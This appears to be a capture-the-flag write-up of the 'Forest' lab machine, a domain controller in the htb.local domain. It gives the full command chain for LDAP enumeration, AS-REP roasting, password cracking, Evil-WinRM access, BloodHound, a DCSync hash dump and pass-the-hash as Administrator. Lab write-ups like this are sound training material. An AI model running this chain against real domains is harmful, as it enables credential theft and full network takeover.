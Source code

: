 ![Header](images/image0.png)

# Forest - Penetration Testing Walkthrough (Extended Markdown Report)

This is the full technical walkthrough for the **Forest** machine (IP: `10.129.249.242`).  
The report details each step from enumeration to complete domain compromise, including background explanations for key attacks.  
All screenshots are referenced as `images/imageX.png`.

---

## 🧭 Enumeration

We started the assessment with a full **Nmap** scan to identify running services and ports on the target system:

```bash
nmap -p- -Pn 10.129.249.242 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.249.242 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.249.242 -v --script vuln -oN nmap_vuln.txt
```

![Nmap Results](images/image9.png)

The scan identified multiple open ports, including:
- **88/tcp (Kerberos)**  
- **135/tcp (MSRPC)**  
- **389/tcp (LDAP)**  
- **445/tcp (SMB)**  
- **5985/tcp (WinRM)**  

These findings indicated that the target was an **Active Directory Domain Controller** running the `htb.local` domain.

---

## 📂 LDAP Enumeration

Given the presence of LDAP and Kerberos, we performed LDAP enumeration using **ldapsearch** to gather domain information and possible user accounts.

```bash
ldapsearch -x -h 10.129.249.242 -s base namingcontexts
```

This revealed several domain naming contexts confirming the `htb.local` Active Directory environment.

![LDAP Results](images/image6.png)

To extract user objects, we used **ldapdomaindump**:

```bash
ldapdomaindump ldap://10.129.249.242 -u '' -p ''
```

![LDAP Dump Output](images/image5.png)

This generated detailed `.json` and `.html` reports containing user accounts, group memberships, and GPO information.

---

## 🧠 Kerberos AS-REP Roasting

Next, we moved to check for **AS-REP Roastable** users — accounts that have Kerberos pre-authentication disabled.

### 🔍 What is AS-REP Roasting?

AS-REP Roasting is a Kerberos attack that targets users who **do not require pre-authentication**.  
In such cases, attackers can request a Ticket Granting Ticket (TGT) for these users without knowing their password.  
The TGT contains data encrypted with the user’s password hash, which can then be cracked offline to recover credentials.

We used **Impacket’s GetNPUsers.py** for this purpose:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.129.249.242 -no-pass -usersfile users.txt -outputfile asreproast.hashes
```

![AS-REP Roast Output](images/image8.png)

The tool identified one roastable account: **svc-alfresco**.

We cracked the retrieved hash using **John the Ripper**:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.hashes
```

![Password Crack](images/image2.png)

The password for `svc-alfresco` was recovered successfully.

---

## 💻 Gaining Initial Access (Evil-WinRM)

Armed with valid credentials for `svc-alfresco`, we gained shell access using **Evil-WinRM**:

```bash
evil-winrm -i 10.129.249.242 -u svc-alfresco -p s3rvice
```

![Evil-WinRM Shell](images/image3.png)

This provided us with a PowerShell session on the domain controller as a low-privileged user.  
We quickly confirmed domain membership and retrieved the **user flag**.

---

## 🩸 Privilege Escalation via BloodHound & DCSync

To escalate privileges within the domain, we ran **BloodHound** to map relationships and permissions.  
We collected data using **SharpHound** from within our Evil-WinRM session:

```powershell
Invoke-BloodHound -CollectionMethod All -Domain htb.local -ZipFileName loot.zip
```

After transferring the data back to our attacking machine and loading it into BloodHound, we discovered that `svc-alfresco` was a member of a group that had **DCSync privileges**.

![BloodHound Graph](images/image1.png)

### 🧩 Understanding the DCSync Attack

**DCSync** is a technique that allows a user with specific replication privileges to simulate the behavior of a Domain Controller.  
This means the attacker can **request password hashes for any domain user**, including the **Administrator**.

We performed the DCSync attack using Impacket’s **secretsdump.py**:

```bash
impacket-secretsdump 'htb.local/svc-alfresco:s3rvice@10.129.249.242'
```

![Secretsdump Output](images/image4.png)

This successfully dumped **NTLM hashes** for the `Administrator` account.

---

## 🔐 Administrator Access

With the Administrator hash obtained, we logged in directly using **Evil-WinRM**:

```bash
evil-winrm -i 10.129.249.242 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

![Administrator Shell](images/image7.png)

We gained **full domain administrator access**.  
The **root flag** was retrieved from the Administrator’s desktop:

```
C:\Users\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

The **Forest** machine exemplifies a complete **Active Directory exploitation chain** — from reconnaissance to full domain compromise.

**Attack Summary:**
1. Enumerated AD-related ports and services.  
2. Extracted LDAP data to identify domain users.  
3. Performed AS-REP roasting to recover credentials.  
4. Established an initial foothold via Evil-WinRM.  
5. Used BloodHound to discover privilege escalation paths.  
6. Executed a DCSync attack to dump domain hashes.  
7. Achieved Administrator-level control over the domain.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service enumeration | Initial Scanning |
| **ldapsearch / ldapdomaindump** | Extract domain and user information | LDAP Enumeration |
| **Impacket - GetNPUsers.py** | Perform AS-REP Roasting | Credential Harvesting |
| **John the Ripper** | Crack AS-REP hashes | Credential Recovery |
| **Evil-WinRM** | Remote PowerShell access | Initial Access / Privilege Escalation |
| **SharpHound / BloodHound** | Visualize AD relationships and privileges | Domain Analysis |
| **Impacket - secretsdump.py** | Execute DCSync to dump credentials | Privilege Escalation |
| **Pass-the-Hash (Evil-WinRM)** | Authenticate as Administrator | Root Access |

---

**User Flag Path:** `C:\Users\svc-alfresco\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
